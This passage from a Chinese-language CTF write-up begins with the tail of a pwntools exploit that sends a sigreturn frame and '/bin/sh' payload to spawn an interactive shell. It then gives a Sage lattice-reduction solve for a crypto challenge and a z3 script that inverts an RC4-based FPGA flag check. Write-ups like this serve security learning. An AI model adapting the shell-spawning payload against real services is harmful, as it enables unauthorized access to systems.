payload=p64(15+0x80)+p64(ret)*10+p64(0x401142)+bytes(sigFrame)[8:]+b'/bin/sh\x00'
# payload=payload.ljust(0x800,b'\x00')
# # p()
# io.send(payload)

# p()
io.sendline(payload)
sleep(1)

payload=b'\x5f'
# p()
io.send(payload)
# p()
sleep(0.5)

io.interactive()
```

# Crypto

### AAALLL

用 subset 与 values 构造 xA=0 的格 A，求出 A 的左核，对左核基进行 LLL，得到目标 f，但格维度太大，参考 dual attack 的降维办法https://tangcuxiaojikuai.xyz/post/758dd33a.html，最后用flatter对451*451对格进行规约，得到目标f。

```python
def flatter(M):
    from subprocess import check_output
    import re
    inputM = "[[" + "]\n[".join(" ".join(map(str, row)) for row in M) + "]]"
    outputM = check_output(["flatter"], input=inputM.encode())
    return matrix(M.nrows(), M.ncols(), map(int, re.findall(b"-?\\d+", outputM)))

subset=
values=

print(1)
n = 450  # 总行数
t = 225  # subset长度
p = 3774877201

equation_block = matrix(GF(p), n+1, t)
for i in range(n):
    for j in range(t):
        equation_block[i,j]=subset[j]**i
for j in range(t):
    equation_block[n, j] = -values[j]
L_kernel = equation_block.left_kernel().basis()
print(len(L_kernel))
c=Matrix(GF(p),L_kernel).echelon_form().change_ring(ZZ)
print(c.dimensions())
T = block_matrix(
        [
            [Matrix(GF(p),L_kernel).echelon_form().change_ring(ZZ)],
            [matrix.zero(t, n+1-t).augment(matrix.identity(t) * p)]
        ]
    )
print(T.dimensions())
T_re=flatter(T)
print(T_re[0])
from Crypto.Cipher import AES
from Crypto.Util.Padding import pad
from random import choice, sample

from hashlib import md5
a=
ct= b'"\xf2Y\xf0\x15\xc5x\x94\xb9E\xbd\xd3\xa7\xb1\xad\x00\xa2D*+\x87BQ_20\x87\xa2\nP\xfc\xce\x0eW\xaf\xd8-.\xb5\xfai\xf1\xf6*\xben^\xd5'

f=a[:-1]
key = md5(str(f).encode()).digest()
aes = AES.new(key = key, mode = AES.MODE_ECB)
print(aes.decrypt(ct))
```

# RE

## ezFPGA

ai 获取密文



通过 ai 获取解密代码

```python
from z3 import *

def solve_flag(length, encrypted):
    ctx = Solver()

    candidate = [BitVec(f'c_{i}', 8) for i in range(length)]

    prefix = [ord(x) for x in 'ACTF{']
    for idx, val in enumerate(prefix):
        ctx.add(candidate[idx] == val)

    ctx.add(candidate[length - 1] == ord('}'))

    for i in range(5, length - 1):
        ctx.add(candidate[i] >= 32, candidate[i] <= 126)

    buffer = [BitVec(f'b_{i}', 8) for i in range(39)]
    for i in range(39):
        if i < length:
            ctx.add(buffer[i] == candidate[i])
        else:
            ctx.add(buffer[i] == 0)

    factors = [11, 4, 5, 14]
    intermediate = [BitVec(f'i_{i}', 8) for i in range(36)]
    for i in range(36):
        expr = buffer[i] * factors[0] + buffer[i+1] * factors[1] + buffer[i+2] * factors[2] + buffer[i+3] * factors[3]
        ctx.add(intermediate[i] == expr & 0xFF)

    constants = [
        116, 174, 193, 124, 102, 100, 11, 193, 115, 4, 127, 139,
        98, 214, 197, 145, 97, 151, 31, 30, 117, 15, 230, 179,
        235, 25, 244, 202, 73, 222, 15, 191, 119, 140, 94, 32
    ]

    transformed = [BitVec(f't_{i}', 8) for i in range(36)]
    for i in range(36):
        base = (i // 6) * 6
        offset = i % 6
        total = 0
        for j in range(6):
            total += intermediate[base + j] * constants[offset + j * 6]
        ctx.add(transformed[i] == total & 0xFF)

    k = b'eclipsky'
    S = list(range(256))
    j = 0
    for i in range(256):
        j = (j + S[i] + k[i % len(k)]) % 256
        S[i], S[j] = S[j], S[i]

    i = j = 0
    ks = []
    for _ in range(36):
        i = (i + 1) % 256
        j = (j + S[i]) % 256
        S[i], S[j] = S[j], S[i]
        ks.append(S[(S[i] + S[j]) % 256])

    for idx in range(36):
        ctx.add((transformed[idx] + ks[idx]) & 0xFF == encrypted[idx])

    if ctx.check() == sat:
        model = ctx.model()
        return ''.join(chr(model[candidate[i]].as_long()) for i in range(length))
    return None

def main():
    encrypted_data = [
        0xad, 0x00, 0xc0, 0x9f, 0x16, 0x17, 0xec, 0x25,
        0x25, 0x1f, 0x12, 0xe2, 0x7f, 0x9f, 0x37, 0x53,
        0x12, 0xba, 0x8d, 0x38, 0x60, 0x14, 0x1b, 0x31,
        0x8e, 0x13, 0xe2, 0x56, 0x0a, 0x1a, 0x25, 0xb9,
        0x80, 0x73, 0x8a, 0x60
    ]

    for l in range(6, 39):
        res = solve_flag(l, encrypted_data)
        if res:
            print(res)

if __name__ == "__main__":
    main()
```

得出 flag
